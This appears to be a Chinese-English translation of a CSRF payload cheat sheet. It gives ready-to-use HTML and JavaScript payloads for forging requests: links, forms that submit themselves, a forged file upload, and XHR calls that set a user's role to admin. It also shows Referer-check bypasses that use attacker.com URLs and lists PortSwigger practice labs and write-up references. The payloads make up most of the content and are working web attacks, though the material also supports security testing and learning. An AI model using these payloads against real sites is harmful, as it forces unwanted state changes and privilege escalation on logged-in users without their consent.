

# Cross-Site Request Forgery - 跨站请求伪造

> 跨站点请求伪造 (CSRF/XSRF) 是一种攻击，迫使用户在他们当前已通过身份验证的 Web 应用程序上执行不需要的操作。 CSRF 攻击专门针对状态更改请求，而不是数据窃取，因为攻击者无法看到对伪造请求的响应。 - OWASP

## Summary - 总结


- [Cross-Site Request Forgery - 跨站请求伪造](#cross-site-request-forgery---跨站请求伪造)
  - [Summary - 总结](#summary---总结)
  - [Tools - 工具](#tools---工具)
  - [Methodology - 方法](#methodology---方法)
  - [Payloads](#payloads)
    - [HTML GET - Requiring User Interaction -交互](#html-get---requiring-user-interaction--交互)
    - [HTML GET - No User Interaction - 无交互](#html-get---no-user-interaction---无交互)
    - [HTML POST - Requiring User Interaction - 交互](#html-post---requiring-user-interaction---交互)
    - [HTML POST - AutoSubmit - No User Interaction - 自动提交 无交互](#html-post---autosubmit---no-user-interaction---自动提交-无交互)
    - [HTML POST - multipart/form-data with file upload - Requiring User Interaction - 文件上传 交互](#html-post---multipartform-data-with-file-upload---requiring-user-interaction---文件上传-交互)
    - [JSON GET - Simple Request - 简单请求](#json-get---simple-request---简单请求)
    - [JSON POST - Simple Request - 简单请求](#json-post---simple-request---简单请求)
    - [JSON POST - Complex Request - 复杂请求](#json-post---complex-request---复杂请求)
  - [Bypass referer header validation - Referer头验证绕过](#bypass-referer-header-validation---referer头验证绕过)
    - [Basic payload](#basic-payload)
    - [With question mark(`?`) payload - 问号绕过](#with-question-mark-payload---问号绕过)
    - [With semicolon(`;`) payload - 分号绕过](#with-semicolon-payload---分号绕过)
    - [With subdomain payload - 子域名绕过](#with-subdomain-payload---子域名绕过)
  - [Labs](#labs)
  - [References](#references)


## Tools - 工具

- [XSRFProbe - The Prime Cross Site Request Forgery Audit and Exploitation Toolkit.](https://github.com/0xInfection/XSRFProbe)

## Methodology - 方法



## Payloads

当登录到某个站点时，通常会有一个 session 。该 session 的标识符存储在浏览器的 cookie 中，并随对该站点的每个请求一起发送。即使某些其他站点触发了请求，cookie 也会随请求一起发送，并且请求的处理方式就好像登录用户执行的一样。

### HTML GET - Requiring User Interaction -交互

```
<a href="http://www.example.com/api/setusername?username=CSRFd">Click Me</a>
```

### HTML GET - No User Interaction - 无交互

```

```

### HTML POST - Requiring User Interaction - 交互

```
<form action="http://www.example.com/api/setusername" enctype="text/plain" method="POST">
 <input name="username" type="hidden" value="CSRFd" />
 <input type="submit" value="Submit Request" />
</form>
```

### HTML POST - AutoSubmit - No User Interaction - 自动提交 无交互

```
<form id="autosubmit" action="http://www.example.com/api/setusername" enctype="text/plain" method="POST">
 <input name="username" type="hidden" value="CSRFd" />
 <input type="submit" value="Submit Request" />
</form>
 
<script>
 document.getElementById("autosubmit").submit();
</script>
```

### HTML POST - multipart/form-data with file upload - Requiring User Interaction - 文件上传 交互

```
<script>
function launch(){
    const dT = new DataTransfer();
    const file = new File( [ "CSRF-filecontent" ], "CSRF-filename" );
    dT.items.add( file );
    document.xss[0].files = dT.files;

    document.xss.submit()
}
</script>

<form style="display: none" name="xss" method="post" action="<target>" enctype="multipart/form-data">
<input id="file" type="file" name="file"/>
<input type="submit" name="" value="" size="0" />
</form>
<button value="button" onclick="launch()">Submit Request</button>
```

### JSON GET - Simple Request - 简单请求

```
<script>
var xhr = new XMLHttpRequest();
xhr.open("GET", "http://www.example.com/api/currentuser");
xhr.send();
</script>
```

### JSON POST - Simple Request - 简单请求

```
<script>
var xhr = new XMLHttpRequest();
xhr.open("POST", "http://www.example.com/api/setrole");
//application/json is not allowed in a simple request. text/plain is the default
xhr.setRequestHeader("Content-Type", "text/plain");
//You will probably want to also try one or both of these
//xhr.setRequestHeader("Content-Type", "application/x-www-form-urlencoded");
//xhr.setRequestHeader("Content-Type", "multipart/form-data");
xhr.send('{"role":admin}');
</script>
```

### JSON POST - Complex Request - 复杂请求

```
<script>
var xhr = new XMLHttpRequest();
xhr.open("POST", "http://www.example.com/api/setrole");
xhr.withCredentials = true;
xhr.setRequestHeader("Content-Type", "application/json;charset=UTF-8");
xhr.send('{"role":admin}');
</script>
```

## Bypass referer header validation - Referer头验证绕过

### Basic payload

```
1) Open https://attacker.com/csrf.html
2) Referer header is ..

Referer: https://attacker.com/csrf.html
```

### With question mark(`?`) payload - 问号绕过

```
1) Open https://attacker.com/csrf.html?trusted.domain.com
2) Referer header is ..

Referer: https://attacker.com/csrf.html?trusted.domain.com
```

### With semicolon(`;`) payload - 分号绕过

```
1) Open https://attacker.com/csrf.html;trusted.domain.com
2) Referer header is ..

Referer: https://attacker.com/csrf.html;trusted.domain.com
```

### With subdomain payload - 子域名绕过

```
1) Open https://trusted.domain.com.attacker.com/csrf.html
2) Referer headers is ..

Referer: https://trusted.domain.com.attacker.com/csrf.html
```

## Labs

- [CSRF vulnerability with no defenses](https://portswigger.net/web-security/csrf/lab-no-defenses)
- [CSRF where token validation depends on request method](https://portswigger.net/web-security/csrf/lab-token-validation-depends-on-request-method)
- [CSRF where token validation depends on token being present](https://portswigger.net/web-security/csrf/lab-token-validation-depends-on-token-being-present)
- [CSRF where token is not tied to user session](https://portswigger.net/web-security/csrf/lab-token-not-tied-to-user-session)
- [CSRF where token is tied to non-session cookie](https://portswigger.net/web-security/csrf/lab-token-tied-to-non-session-cookie)
- [CSRF where token is duplicated in cookie](https://portswigger.net/web-security/csrf/lab-token-duplicated-in-cookie)
- [CSRF where Referer validation depends on header being present](https://portswigger.net/web-security/csrf/lab-referer-validation-depends-on-header-being-present)
- [CSRF with broken Referer validation](https://portswigger.net/web-security/csrf/lab-referer-validation-broken)

## References

- [Cross-Site Request Forgery Cheat Sheet - Alex Lauerman - April 3rd, 2016](https://trustfoundry.net/cross-site-request-forgery-cheat-sheet/)
- [Cross-Site Request Forgery (CSRF) - OWASP](https://www.owasp.org/index.php/Cross-Site_Request_Forgery_(CSRF))
- [Messenger.com CSRF that show you the steps when you check for CSRF - Jack Whitton](https://whitton.io/articles/messenger-site-wide-csrf/)
- [Paypal bug bounty: Updating the Paypal.me profile picture without consent (CSRF attack) - Florian Courtial](https://hethical.io/paypal-bug-bounty-updating-the-paypal-me-profile-picture-without-consent-csrf-attack/)
- [Hacking PayPal Accounts with one click (Patched) - Yasser Ali](http://yasserali.com/hacking-paypal-accounts-with-one-click/)
- [Add tweet to collection CSRF - vijay kumar](https://hackerone.com/reports/100820)
- [Facebookmarketingdevelopers.com: Proxies, CSRF Quandry and API Fun - phwd](http://philippeharewood.com/facebookmarketingdevelopers-com-proxies-csrf-quandry-and-api-fun/)
- [How i Hacked your Beats account ? Apple Bug Bounty - @aaditya_purani](https://aadityapurani.com/2016/07/20/how-i-hacked-your-beats-account-apple-bug-bounty/)
- [FORM POST JSON: JSON CSRF on POST Heartbeats API - Dr.Jones](https://hackerone.com/reports/245346)
- [Hacking Facebook accounts using CSRF in Oculus-Facebook integration](https://www.josipfranjkovic.com/blog/hacking-facebook-oculus-integration-csrf)
- [Cross site request forgery (CSRF) - Sjoerd Langkemper - Jan 9, 2019](http://www.sjoerdlangkemper.nl/2019/01/09/csrf/)
- [Cross-Site Request Forgery Attack - PwnFunction](https://www.youtube.com/watch?v=eWEgUcHPle0)
- [Wiping Out CSRF - Joe Rozner - Oct 17, 2017](https://medium.com/@jrozner/wiping-out-csrf-ded97ae7e83f)
- [Bypass referer check logic for CSRF](https://www.hahwul.com/2019/10/11/bypass-referer-check-logic-for-csrf/)